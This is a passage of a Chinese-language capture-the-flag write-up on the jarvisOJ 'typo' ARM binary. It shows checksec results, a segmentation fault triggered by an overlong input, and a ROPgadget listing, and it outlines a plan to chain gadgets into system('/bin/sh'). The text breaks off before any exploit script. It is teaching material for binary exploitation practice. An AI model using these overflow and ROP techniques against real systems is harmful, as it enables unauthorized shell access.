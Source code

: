 ### 确定保护
```bash
jarvisOJ_typo [master●●] check ./typo
typo: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=211877f58b5a0e8774b8a3a72c83890f8cd38e63, stripped
[*] '/home/m4x/pwn_repo/jarvisOJ_typo/typo'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8000)
```
静态链接的程序，没有开栈溢出保护和 PIE; 静态链接说明我们可以在 binary 里找到 **system** 等危险函数和 **"/bin/sh"** 等敏感字符串，因为又是 No PIE， 所以我们只需要栈溢出就能构造 ropchain 来 get shell

### 利用思路
因此需要我们找一个溢出点，先运行一下程序，因为是静态链接的，所以在环境配置好的情况下直接运行即可
```bash
jarvisOJ_typo [master●●] ./typo 
Let's Do Some Typing Exercise~
Press Enter to get start;
Input ~ if you want to quit

------Begin------
throng
throng

survive
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
[1]    1172 segmentation fault  ./typo
```

程序的输入点不多，很容易就能找到溢出点

### 构造 ROP 
因此思路就很明显了，利用栈溢出构造 **system("/bin/sh")**， 先找一下 gadgets
```bash
jarvisOJ_typo [master●●] ROPgadget --binary ./typo --only "pop"   
Gadgets information
============================================================
0x00020904 : pop {r0, r4, pc}
0x00068bec : pop {r1, pc}
0x00008160 : pop {r3, pc}
0x0000ab0c : pop {r3, r4, r5, pc}
0x0000a958 : pop {r3, r4, r5, r6, r7, pc}
0x00014a70 : pop {r3, r4, r7, pc}
0x000083b0 : pop {r4, pc}
0x00009284 : pop {r4, r5, pc}
0x000095b8 : pop {r4, r5, r6, pc}
0x000082e8 : pop {r4, r5, r6, r7, pc}
0x00023ed4 : pop {r4, r5, r7, pc}
0x00023dbc : pop {r4, r7, pc}
0x00014068 : pop {r7, pc}

Unique gadgets found: 13
```
